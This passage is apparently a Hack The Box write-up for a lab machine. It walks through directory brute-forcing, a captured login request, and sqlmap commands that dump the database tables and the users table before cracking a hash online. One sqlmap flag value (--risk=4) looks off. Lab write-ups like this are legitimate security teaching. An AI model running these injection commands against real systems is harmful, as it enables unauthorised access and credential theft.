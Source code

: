There are only two ports open. The port 8000 is an HTTP service which is hosted by Express. It should be our breakthrough.

## Exploitation

Access to `http://10.10.10.25:8000`, there is nothing except an image. Download the image, and try to see more information about the image with ExifTool. Nothing interesting found.

[![EjY0mV.png](https://s2.ax1x.com/2019/05/19/EjY0mV.png)](https://imgchr.com/i/EjY0mV)

Then try to brute force the directory. Gobuster and dirbuster seem not to be very useful for this box. If you try dirb, you will soon find some important directories, including admin, login. Try to access `http://10.10.10.25:8000/login`. It is a login web page. Try to login with some default credentials. Not work. Then use burp to save the login request to a file.

```
POST /login HTTP/1.1
Host: 10.10.10.25:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.25:8000/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

### Sqlmap

Try to use sqlmap to brute force the login request. Due to the awful network or something, sqlmap is slow for me to use for the boxed in hack the box. So try to prefer to get some important information instead of dump all information in sqlmap. For example, obtain tables firstly. Then dig into the interesting table.

```
sqlmap -r sql.req --level=5 --risk=3 --tables --threads=10
```

[![Ejdcss.md.png](https://s2.ax1x.com/2019/05/19/Ejdcss.md.png)](https://imgchr.com/i/Ejdcss)

By sqlmap, it seems that the database is SQLite and there are 5 tables. The `users` table is interesting. There may are some valid user and password. 

```
sqlmap -r sql.req --level=5 --risk=4 -T users --threads=10
```

![Ej4acR.png](https://s2.ax1x.com/2019/05/19/Ej4acR.png)

A user is found. [Hashkiller](https://hashkiller.co.uk/Cracker) is a wonderful hash crack online tool. The hash can be cracked easily.
